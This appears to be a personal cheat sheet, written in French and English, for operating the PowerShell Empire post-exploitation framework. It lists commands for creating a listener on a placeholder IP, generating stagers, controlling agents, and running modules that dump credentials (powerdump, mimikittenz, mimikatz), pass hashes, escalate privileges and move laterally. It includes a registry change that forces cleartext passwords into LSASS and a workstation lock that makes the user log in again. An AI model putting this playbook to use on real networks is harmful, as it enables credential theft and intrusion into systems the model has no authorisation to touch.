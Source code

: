 ## Empire

ps-empire serveur
ps-empire client

# listeners context
listeners
help
back

# créer un listener
uselistener <wait> 

* killdate - temp de vie du listener
* stagingkey -  key pour chiffrer les communications entre l'agent et le listener 
* workinghours - limite le temps d'activité du listener
* defaultdelay - specifie le delais de reponse ( les agents ne sont pas synchronisés)
 par defaut 5s (l'agent demande des renseignement au listener) , IP deja mise, port 80

set DefaultDelay 1 
set Port 9999 
set Host http://<IP>:9999 
execute 
listeners 

# deployer un agent
usestager <wait> 
options 
set Listener <listener> 
generate 


# active agent
agents 
help 
rename XXXX agent1 
list 
 
interact agent1 
help 
info 

# modules
usemodule <tab> 
	*  code_execution: These modules let you run code, including Metasploit payloads, on the target box. collection: These modules let you pillage information from the target machine. 
	* credentials: These modules let you plunder usernames, hashes, and passwords from the target. 
	* exploitation: These modules let you exploit additional targets. 
	* lateral_movement: These modules let you pivot to other target machines. 
	* management: These modules are associated with system administration functions on the target. 
	* persistence: These modules will make your agent survive across user logoff or reboot. 
	* privesc: These modules provide privilege escalation exploits. 
	* recon: These are the reconnaissance modules. 
	* situational_awareness: These modules pull information from the target environment, including scanners and related tools. 
    	* trollsploit : troll, play audio, pop dialog 
    
    
usemodule <wait> 
execute 
view 1


# pour le shell
shell <commande>
view 2

# créer un nouveau agent 
psinject http <3304(pid)>

# import script
scriptimport /opt/ps/Sherlock.ps1
scriptcmd Find-AllVulns
jobs

# pour finir
agents 
kill all
y
listeners 
kill all
exit


## modules
situational_awarness/network/powerview/get_user
situational_awarness/network/powerview/get_computer
situational_awarness/network/powerview/find_localadmin_access #connexion sur tous les hosts 
check : shell dir \\<host>\C$


# hash
	 usemodule powershell/credentials/powerdump
	
	 mimikittenz
		 scriptimport /opt/mimikittenz/Invoke-mimikittenz.ps1
		 scriptcmd Invoke-mimikittenz
	 mimikatz
		 changer la cle de registre pour avoir les mdp dans LSASS # +besoin que le user se reconecte, ici on verouille l'ordinateur pour le pas redemarer 
		 shell reg add
		 HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredentials /t REG_DWORD /d 1 /f
		 shell rundll32.exe user32.dll,LockWorkStation

# PTH
	 credentials/mimikatz/pth
	
# privesc
	 usemodule powershell/privesc/ask

	 If you are already admin, you can attempt to use the classic getsystem module
	 usemodule privesc/getsystem

# lateral mouvement
	 inveigh_relay 		#smbrelay
	 invoke_executemsbuild 	#execute msbild local/remote
	 invoke_psremoting 		#execute stager on host using psremoting
	 invoke_sqloscmd 		# stager on host using xp_cmdshell
	 inkoke_wmi 			#stager on wmi 
	 jenkins_script_console
	 invoke_dcom #MMC20
	 invoke_psexec
	 invoke_smbexec
	 invoke_sshcommand
	 new_gpo_immediate_task

